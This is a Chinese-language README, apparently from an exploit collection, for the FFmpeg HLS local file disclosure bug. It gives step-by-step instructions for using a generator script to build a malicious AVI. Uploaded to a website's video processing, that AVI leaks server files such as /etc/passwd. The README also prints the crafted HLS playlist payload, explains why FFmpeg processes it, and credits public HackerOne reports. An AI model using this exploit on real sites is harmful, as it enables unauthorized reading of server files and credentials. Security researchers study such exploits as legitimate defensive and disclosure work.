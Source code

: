 # FFmpeg HLS 漏洞
FFmpeg是一个用于处理音频和视频格式的开源软件。您可以在AVI视频中使用恶意HLS播放列表来读取任意文件。

## Exploits
```
1. ./gen_xbin_avi.py file://你要读取的文件名，如file:///etc/passwd file_read.avi
2. 将`file_read.avi`上传到存在视频处理功能的网站系统上
3. 上传成功后，在视频服务中单击“播放”。
4. 如果系统存在漏洞，你会从服务器上得到file:///etc/passwd的内容。
```

## 它的工作原理 (来源：neex - Hackerone)
利用该脚本创建一个AVI，该AVI在GAB2中包含一个HLS播放列表。此脚本生成的播放列表如下所示：
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/etc/passwd
#EXT-X-ENDLIST
```
为了处理播放列表，ffmpeg将所有段连接起来，并将其作为单个文件进行处理。
为了确定该文件的类型，FFmpeg使用播放列表的第一段。
FFmpeg以一种特殊的方式处理.txt文件。它试图显示打印此文件的tty的屏幕截图。

因此，上面的播放列表将按如下方式处理：
FFmpeg在GAB2块中看到#EXTM3U签名，并确定文件类型为HLS播放列表。
文件GOD.txt甚至不存在，但它的名称足以让FFmpeg将文件类型检测为.txt。
FFmpeg连接播放列表的所有段的内容。因为实际上只存在两个段中的一个，所以串联的结果就是我们想要检索的文件的内容。
因为这个连接的类型是.txt，所以FFmpeg绘制一个打印文件的tty。

## 致谢
* [Hackerone - Local File Disclosure via ffmpeg @sxcurity](https://hackerone.com/reports/242831)
* [Hackerone - Another local file disclosure via ffmpeg](https://hackerone.com/reports/243470)
* [PHDays - Attacks on video converters:a year later, Emil Lerner, Pavel Cheremushkin](https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/edit#slide=id.p)
* [利用程序 @neex](https://github.com/neex/ffmpeg-avi-m3u-xbin/blob/master/gen_xbin_avi.py)